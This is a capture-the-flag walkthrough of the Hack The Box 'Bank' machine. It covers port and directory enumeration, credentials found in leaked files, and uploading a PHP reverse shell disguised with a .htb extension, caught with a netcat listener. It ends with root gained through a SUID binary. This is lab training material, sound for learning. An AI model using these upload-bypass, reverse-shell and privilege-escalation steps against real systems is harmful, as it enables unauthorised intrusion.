










# (Linux) [Easy] Bank
## Author: David Chaparro - davidch09

#### Requirements (Not an expert, only know the concept)

##### Topics
+ Linux
+ Port/Web enumeration

##### Tools
+ nmap
+ gobuster
+ netcat

##### Languages / Ciphering
+ bash
+ php

## Solution

### Ports Enumeration

We start the port enumeration, with the `nmap` command:

```sh
sudo nmap -p- -sS -Pn --min-rate 5000 -vvv -n -oG allPorts 10.129.32.218
```

We discover these open ports:

```java
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We see that a web service is running in the port `80`, a DNS service in the port `53` and a SSH service in the port `22`


Now to detect the name and version of the services, we use this command:

```sh
sudo nmap -p 22,53,80 -Pn -sVC --min-rate 5000 -oN puertos.txt 10.129.32.218
```

```java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### `nmap` parameters explanation
+ -p- : Scans all possible ports (1 - 65535)
+ -sS : (stealth Scan) Sends SYN packets and waits for a response, it's faster and stealthier than a full TCP scan
+ -Pn : no `ping` command is performed, so the scan was doing without checking if the machine responds to ICMP pings
+ --min-rate 5000 : Sets a minimum rate of `5000` packets per second (the more packets, the faster, but noisier and more detectable)
+ -vvv : More verbosity, you can see the ports discovering in the process
+ -n : Skips DNS resolution, speeding up the scan
+ -oG `"allPorts"` : Saves the scan results in a grepable format (easy to filter and use the `grep` command)
+ -oN `"puertos.txt"` : Saves the scan results in a normal format (easy to read)

### Web enumeration

In the port `80` we see the default apache index page:



So after do fuzzing, we try the default domain guess of HTB machines, in this case we try `"bank.htb"`:



And we get a `login.php` page! (we have to put pair `ip : domain` in the file `/etc/hosts`), And after try some default credentials and analyze the page source code, let's do directory enumeration with `gobuster`:

```sh
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o fuzzWebDir.txt -t 50 -x php
```

#### parameters explanation
+ dir : This is the option to execute a `direction discovery` in `gobuster`
+ -u : Sets the ip of the we service
+ -w : Sets the wordlist dictionary to use in the bruteforcing process
+ -o : Save the content of the directory discovery
+ -t : Number of current threads the process will use (default: 10)
+ -x php : Puts an `".php"` at the end of each attempt (plus the default one)

```java
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/login.php            (Status: 200) [Size: 1974]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 441120 / 441122 (100.00%)
```

We found interesting things, we have an `uploads` directory (this could mean that we have to upload a malicious file) and an `assets` directory when we find some css and js files, but there is nothing interesting there. And of course the `balance-transfer` directory, when we can see a lot of `.acc` files, and after filter by date, time and size (you can filter it by clicking on the button columns at the top), we can see that there is one file with a big difference on the size (there is only one that is 257 Bytes)





We got some credentials!, but after tried them in the `SSH` and failed, we entered in the page login and got in: 



After some enumeration, we can see kind of a hint in the source code in the `support.php` page:



Let's try to submit a malicious reverse shell `.php` file, I like to use the pentestmonkey's php reverse shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  , then we must change the IP address, the port and the extension of the file (instead of `.php`, we have to use `.htb`), and before click it or open it so the server can read it, we have to be listening in another port with `nc`:

```sh
nc -nlvp 1234
```


And we got a shell!, after sanitized it (with this process: https://uqbarun.github.io/blog/fundamentos/2023/11/19/sanitizacion-de-tty-por-conexion-remota), we can read the user flag:



### Privileged escalation

We start with some enumeration like:

```sh
www-data@bank:/$sudo -l
```

But it ask us for a password, let's try listing files with SUID or SGID bits set (that we can execute) with the command:

```sh
www-data@bank:/$ find / -type f -perm -04000 -ls 2>/dev/null
```

And we find this interesting file:

```sh
 72753  112 -rwsr-xr-x   1 root     root       112204 Jun 14  2017 /var/htb/bin/emergency
```

It seems to be not that human readable, let's execute to see what happen:



We are root!, so let's read the root flag in the `/root` directory:



The easiest priv escalation I've ever seen! 🐇


